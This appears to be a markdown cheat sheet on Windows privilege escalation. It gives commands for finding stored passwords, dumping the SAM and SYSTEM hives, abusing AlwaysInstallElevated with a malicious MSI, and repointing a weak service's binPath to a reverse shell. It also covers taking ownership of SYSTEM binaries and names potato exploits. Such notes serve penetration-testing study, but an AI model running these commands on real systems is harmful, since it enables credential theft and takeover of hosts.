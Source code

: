 # Looking for Passwords:
## unattended Windows Installations:
	+ C:\Unattend.xml
	+ C:\Windows\Panther\Unattend.xml
	+ C:\Windows\Panther\Unattend\Unattend.xml
	+ C:\Windows\system32\sysprep.inf
	+ C:\Windows\system32\sysprep\sysprep.xml
## Powershell History:
```ps1
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## Stored Creds:
```ps1
# list the sotred credentials
cmdkey /list
# run command as another user:
runas /savecred /user:admin cmd.exe
```
## IIS Configurations:
```ps1
# looking for "web.config"
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
# quickly find database Creds:
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Retrieve Creds from "PuTTy"
```ps1
reg query HKEY_CURRENT_USER\Software\<creatorOFputty>\PuTTY\Sessions\ /f "Proxy" /s
```


# Scheduled Tasks:
```ps1
# list of Scheduled Tasks:
schtasks
# for more details on specific task:
schtasks /query /tn vulntask /fo list /v
# check permissions on its binary:
icacls c:\Path\to\executableFile
get-acl c:\Path\to\executableFile
```
# Always Install Elevated:
+ check registry:
	+ C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
	+ C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer	
+ install package from commandLine:
	+ C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi


# Services:
Windows services are managed by the **Service Control Manager (SCM)**. The SCM is a process in charge of **managing the state of services** as needed, checking the current status of any given service and generally providing a way to configure services.

### + check Insecure Permissions on Service Executable
	query on service to get information:
	```ps1
	# look for BINARY_PATH_NAME & SERVICE_START_NAME and check Binary for overwriting it
	C:\> sc qc apphostsvc
	# start & stop a service
	C:\> sc stop windowsscheduler
	C:\> sc start windowsscheduler
	```
	
### + Insecure Service Permissions: 	
there is a chance even if binary is well protected on DACL. we should check service DACL(not binary DACL)
```ps1
# check for service reconfiguration
accesschk64.exe -qlc VULNservice
# reconfigure the service to point to our executable. 
sc config VULNservice binPath= "C:\PATH\TO\reverseSHELL.exe" obj= LocalSystem
```

### + Unquoted Service Paths:
```ps1
# query the service and see if the executable path is unquoted (BINARY_PATH_NAME)
C:\> sc qc "vncserver"
```

### You can look for Services in Registry:
	 HKLM\SYSTEM\CurrentControlSet\Services\	
	
### + Know that: 
Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service,


# Dangerous Tokens
find all the windows tokens with their meanings [Here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants), find more about hot to exploit it [here](https://github.com/gtworek/Priv2Admin)

## SeBackup / SeRestore:
The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. attacker can copy the SAM and SYSTEM registry hives to extract the local Administrator's password hash.
- backup SAM and SYSTEM hashes:
	```ps1
	reg save hklm\system C:\anywhere\system.hive
	reg save hklm\sam C:\anywhere\sam.hive
	```


## SeTakeOwnership:	
The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys. search for a service running as SYSTEM and take ownership of the service's executable.Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need
```ps1
# take the executable ownership whit this:
takeown /f C:\Windows\System32\SomeThing.exe
# give your user full permissions, After this, we will replace the Binary:
icacls C:\Windows\System32\SomeThing.exe /grant <Username>:F
```

## SeImpersonate / SeAssignPrimaryToken:
lets keep it short:)))). use this binaries to get systemSHELL:
	+ RoguePotato.exe
	+ juicyPotato.exe
	+ PrintSpoofer.exe


